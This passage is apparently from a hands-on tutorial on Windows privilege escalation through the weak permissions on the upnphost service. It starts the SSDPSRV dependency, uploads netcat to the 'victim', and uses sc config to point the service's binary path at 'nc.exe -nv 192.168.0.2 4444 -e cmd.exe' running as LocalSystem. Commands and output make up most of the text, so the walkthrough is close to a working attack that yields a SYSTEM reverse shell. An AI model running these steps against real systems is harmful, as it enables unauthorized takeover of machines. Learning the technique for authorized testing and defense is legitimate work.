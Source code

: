 ```powershell
	SERVICE_START_NAME : NT AUTHORITY\LocalService
```

SSDPSRV is successfully set to AUTOMATIC (AUTO_START)! Now let's try to start SSDPSRV again.

```powershell
C:\> net start SSDPSRV
The SSDP Discovery Service service is starting.
The SSDP Discovery Service service was started successfully.
```

Awesome! We now have our dependency running to start the upnphost service. If we run upnphost now though, it won't do much good for us. We first need to edit its parameters so the service will execute a binary of our choice. There are multiple ways to approach this. One option is to generate our own binary with msfvenom, but that's out of scope for this article. What we will do is upload the netcat binary (nc.exe) to our victim. Again, don't forget to put your FTP session in binary, or you won't be able to execute the executable via CLI.

You can download the Windows executables (32bit and 64bit) from Netcat [here](https://eternallybored.org/misc/netcat/).

Once nc.exe is uploaded to your victim, take note of its current path, because we will need it now we are going to edit the parameters from the upnphost service. Execute the commands below to edit the path of the binary that the upnphost service will execute when it's started.

```powershell
# Set new binary path (don't forget the space after binpath=)
# Syntax
C:\> sc config upnphost binpath= "C:\nc.exe -nv [ip] [port] -e C:\WINDOWS\System32\cmd.exe"

# Example
C:\> sc config upnphost binpath= "C:\nc.exe -nv 192.168.0.2 4444 -e C:\WINDOWS\System32\cmd.exe"
[SC] ChangeServiceConfig SUCCESS

# Set obj and password 
C:\> sc config upnphost obj= ".\LocalSystem" password= ""
[SC] ChangeServiceConfig SUCCESS
```

Our upnphost service should now be ready to execute our nc.exe binary and connect back to a listener we will set up on our attacking machine. Let's do one last check of our upnphost service and make sure everything is as it should be.

```powershell
C:\> sc qc upnphost
[SC] GetServiceConfig

SUCCESS SERVICE_NAME: upnphost
	TYPE : 20 WIN32_SHARE_PROCESS
	START_TYPE : 3 DEMAND_START
	ERROR_CONTROL : 1 NORMAL
	BINARY_PATH_NAME : C:\nc.exe -nv 192.168.0.2 4444 -e C:\WINDOWS\System32\cmd.exe
	LOAD_ORDER_GROUP :
	TAG : 0
	DISPLAY_NAME : Universal Plug and Play Device Host
	DEPENDENCIES : SSDPSRV
	SERVICE_START_NAME : NT AUTHORITY\LocalService
```  
